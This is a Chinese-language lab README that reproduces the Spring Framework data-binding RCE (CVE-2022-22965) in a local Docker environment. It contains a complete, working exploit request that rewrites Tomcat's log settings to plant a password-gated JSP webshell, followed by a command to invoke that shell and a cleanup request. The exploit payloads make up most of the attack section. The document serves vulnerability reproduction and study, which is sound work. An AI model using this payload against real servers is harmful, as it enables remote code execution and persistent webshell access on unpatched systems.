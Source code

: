 # Spring框架Data Binding与JDK 9+导致的远程代码执行漏洞（CVE-2022-22965）

在JDK 9+上运行的Spring MVC或Spring WebFlux应用程序可能存在通过数据绑定执行远程代码（RCE）的漏洞。

现在已知的利用方法要求应用程序以WAR部署的形式在Tomcat上运行，然而，该漏洞的性质更为普遍，可能有其他方法可以利用它。

参考链接：

- <https://tanzu.vmware.com/security/cve-2022-22965>
- <https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/>

## 漏洞环境

执行如下命令启动一个Spring WebMVC 5.3.17服务：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8080/?name=Bob&age=25`即可看到一个演示页面。

## 漏洞复现

发送如下数据包，即可修改目标的Tomcat日志路径与后缀，利用这个方法写入一个JSP文件：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1


```

![](1.png)

然后，访问刚写入的JSP Webshell，执行任意命令：

```
http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id
```

![](2.png)

注意，你需要在利用完成后将`class.module.classLoader.resources.context.parent.pipeline.first.pattern`清空，否则每次请求都会写入新的恶意代码在JSP Webshell中，导致这个文件变得很大。发送如下数据包将其设置为空：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

总体来说，这个漏洞的利用方法会修改目标服务器配置，导致目标需要重启服务器才能恢复，实际测试中需要格外注意。
